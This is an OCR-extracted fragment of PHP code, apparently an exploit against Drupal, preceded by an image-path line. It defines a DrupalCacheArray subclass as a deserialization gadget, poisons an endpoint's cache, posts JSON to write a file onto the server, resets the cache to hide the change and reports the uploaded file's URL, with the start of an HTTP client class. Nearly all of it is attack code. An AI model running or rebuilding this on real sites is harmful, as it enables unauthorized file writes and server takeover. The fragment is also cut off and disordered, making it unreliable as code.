 }

$this->storage = $storage;

$this->keysToPersist = array_fill_keys(array_keys($storage), true);

}

}

class ThemeRegistry Extends DrupalCacheArray {

protected $persistable;

protected $completeRegistry;

}

cache_poison($endpoint, $cache);

# Write the file

$json = (array) $browser->post(TYPE_JSON, json_encode($file));

# Stage 3: Restore endpoint’s behaviour

cache_reset($endpoint, $cache);

if(!(isset($json[0]) && $json[0] === strlen($file[‘data’])))

{

e(“Failed to write file.”);

}

$file_url = $url . ‘/’ . $file[‘filename’];

x(“File written: $file_url”);

# HTTP Browser

class Browser

{

private $url;

private $controller = CONTROLLER;

private $action = ACTION;

function __construct($url)

{

$this->url = $url;

}
